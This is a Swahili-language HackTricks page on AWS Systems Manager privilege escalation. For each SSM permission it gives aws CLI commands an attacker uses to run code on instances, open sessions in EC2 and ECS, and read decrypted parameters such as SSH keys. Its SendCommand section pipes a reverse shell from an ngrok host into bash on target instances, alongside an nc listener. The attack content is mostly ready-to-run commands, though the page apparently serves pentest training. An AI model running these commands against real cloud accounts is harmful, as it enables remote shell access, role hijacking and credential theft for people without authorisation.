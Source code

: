 # AWS - SSM Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## SSM

Kwa habari zaidi kuhusu SSM angalia:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Mshambuliaji mwenye ruhusa ya **`ssm:SendCommand`** anaweza **kutekeleza amri kwenye mifano** inayotumia Amazon SSM Agent na **kudhoofisha Jukumu la IAM** linalotumika ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Ikiwa unatumia mbinu hii kuinua mamlaka ndani ya kifaa cha EC2 ambacho tayari kimevamiwa, unaweza tu kukamata rev shell kwa kifaa chako mwenyewe kwa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya IAM ya EC2 yanayohusishwa na mifano inayotumia Mawakala wa SSM.

### `ssm:StartSession`

Mshambuliaji mwenye idhini ya **`ssm:StartSession`** anaweza **kuanzisha kikao kama cha SSH kwenye mifano** inayotumia Amazon SSM Agent na **kuathiri jukumu la IAM** linalotumika ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Ili kuanza kikao unahitaji **SessionManagerPlugin** imewekwa: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya EC2 IAM yaliyounganishwa na mifano inayotumia Mawakala wa SSM.

#### Privesc kwa ECS

Wakati **kazi za ECS** zinaendeshwa na **`ExecuteCommand` imewezeshwa** watumiaji wenye ruhusa za kutosha wanaweza kutumia `ecs execute-command` kutekeleza amri ndani ya kontena.\
Kulingana na [**nyaraka**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) hii inafanywa kwa kuanzisha kituo salama kati ya kifaa unachotumia kuanzisha amri ya "_exec_" na kontena ya lengo na SSM Session Manager. (SSM Session Manager Plugin inahitajika ili hii ifanye kazi)\
Kwa hivyo, watumiaji wenye `ssm:StartSession` wataweza **kupata kabati ndani ya kazi za ECS** na chaguo hilo limezimwa tu kwa kufanya:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya `ECS`IAM yaliyounganishwa na kazi zinazoendesha na `ExecuteCommand` imewezeshwa.

### `ssm:ResumeSession`

Mshambuliaji mwenye ruhusa ya **`ssm:ResumeSession`** anaweza kuanzisha upya kikao cha aina ya SSH kwenye mifano inayoendesha Amazon SSM Agent na hali ya kikao cha SSM **imekatizwa** na **kuhatarisha Jukumu la IAM** linaloendesha ndani yake.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya EC2 IAM yaliyounganishwa na mifano inayofanya kazi na Mawakala wa SSM wanaofanya kazi na vikao vilivyovunjika.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Mshambuliaji mwenye ruhusa zilizotajwa ataweza kuorodhesha **parameta za SSM** na **kusoma kwa wazi**. Katika parameta hizi mara nyingi unaweza **kupata habari nyeti** kama vile funguo za SSH au funguo za API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Athari Inayowezekana:** Pata habari nyeti ndani ya paramita.

### `ssm:ListCommands`

Mshambuliaji mwenye idhini hii anaweza kupata orodha ya **maagizo** yote yaliyotumwa na kwa matumaini kupata **habari nyeti** juu yao.
```
aws ssm list-commands
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya mistari ya amri.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Mshambuliaji mwenye ruhusa hizi anaweza kupata orodha ya **amri** zote zilizotumwa na **kusoma matokeo** yaliyozalishwa kwa matumaini ya kupata **habari nyeti** ndani yake.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Athari Inayowezekana:** Pata habari nyeti ndani ya matokeo ya mistari ya amri.

### Codebuild

Unaweza pia kutumia SSM kuingia kwenye mradi wa codebuild unaojengwa:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
